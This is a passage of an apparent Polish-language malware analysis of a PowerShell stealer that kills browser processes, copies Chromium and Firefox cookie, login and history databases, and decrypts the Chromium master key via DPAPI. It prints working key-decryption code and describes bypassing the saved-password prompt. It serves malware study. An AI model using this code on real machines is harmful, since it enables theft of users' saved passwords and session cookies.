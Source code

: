     remove-item -Path "$env:localappdata\brave_data" -Recurse
    }
Na samym początku wywołania funkcji tworzony jest katalog z nazwą "brave_data", do którego będą kopiowane pliki. Następnie malware zabija wszelkie procesy przeglądarki poleceniem:
> Get-Process "brave" | Stop-Process

Zabicie procesów przeglądarki jest konieczne w celu skopiowania baz SQLite z ciastkami, loginami oraz historią przeglądania. Przy uruchomionej przeglądarce pliki te są zablokowane do odczytu co uniemożliwia skopiowanie.
W dalszej części zostały przypisane do zmiennych nazwy plików, które malware chce ukraść (w Chrome i Edge dodano jeszcze drugą lokalizację ciasteczek, ponieważ nie zawsze znajdują się one w %localappdata%\Google\Chrome\User Data\Default\Network\Cookies).

 Później malware pozyskuje klucz, którym zaszyfrowane są dane logowania oraz ciasteczka poniższym fragmentem funkcji:
 

     $cipheredkey = "$path$brave_key"

    $jsondata = Get-Content -Raw -Path $cipheredkey | ConvertFrom-Json

    $encKey = [System.Convert]::FromBase64String($jsondata.os_crypt.encrypted_key.ToString());
   
    $encKey= $encKey[5..$encKey.Length];
 
    $decryptedKey = [Security.Cryptography.ProtectedData]::Unprotect($enckey,$null, [Security.Cryptography.DataProtectionScope]::CurrentUser)

    echo "decryptedKey in hex coding:   [$(($decryptedKey|ForEach-Object ToString X2) -join '')]" | Out-File -FilePath "$env:localappdata\brave_data\key.txt"

Dzieje się to poprzez odczytanie pliku w formacie JSON o nazwie **Local State**, pozyskanie wartości klucza o nazwie **os_crypt.encrypted_key**, następnie odkodowaniu go z base64, odcięciu pierwszych pięciu znaków (NPAPI) i zdeszyfrowaniu go poleceniem **[Security.Cryptography.ProtectedData]::Unprotect(\$enckey,\$null, [Security.Cryptography.DataProtectionScope]::CurrentUser)**

W przeciwieństwie do manualnej próby pozyskania loginów i haseł z przeglądarki, przy użyciu tego polecenia nie jest wymagana żadna interakcja użytkownika - w przeglądarce przy próbie wyświetlenia zapisanych haseł konieczne jest podanie poświadczeń użytkownika. Polecenie te omija również uwierzytelnienie biometryczne (testowano na uwierzytelnieniu przez odcisk palca).
Wynikiem działania jest klucz w formie heksadecymalnej, zapisywany do pliku **key\.txt**

Chromium od wersji 80 domyślnie szyfruje ciastka oraz loginy i hasła kluczem, który również jest zaszyfrowany przez mechanizmy zabezpieczeń systemu Windows i możliwy jest do użycia jedynie poprzez zalogowanego aktualnie użytkownika do systemu Windows. Próba odszyfrowania tego klucza na innej maszynie zakończy się niepowodzeniem - pojawi się komunikat informujący o tym, że podany klucz nie jest możliwy do użycia w tym stanie. Dlatego istotne jest, by deszyfracji klucza dokonać po stronie "klienta", czego przedmiotowy malware dokonuje z powodzeniem.

W dalszej fazie działania, malware kopiuje pliki z ciastkami, loginami, odszyfrowanym kluczem, historią przeglądania, oraz zakładkami do folderu **brave_data** oraz aktualizuje uprzednio utworzone archiwum o nazwie hosta o powyższe dane. 
Następnie wywoływane są funkcje dla innych przeglądarek, które robią dokładnie to samo, co opisane powyżej.
W przypadku Firefox, sprawa jest nieco uproszczona: Firefox domyślnie nie szyfruje ciastek, a zapisane dane logowania możliwe są do odszyfrowania na innej maszynie (szyfrowanie triple-DES). 
Jeśli użytkownik zastosował "Master Password", odszyfrowanie danych nadal jest możliwe, lecz nieco utrudnione, ponieważ trzeba najpierw zdeszyfrować hasło główne (np. atakiem słownikowym, bruteforce, etc.) 
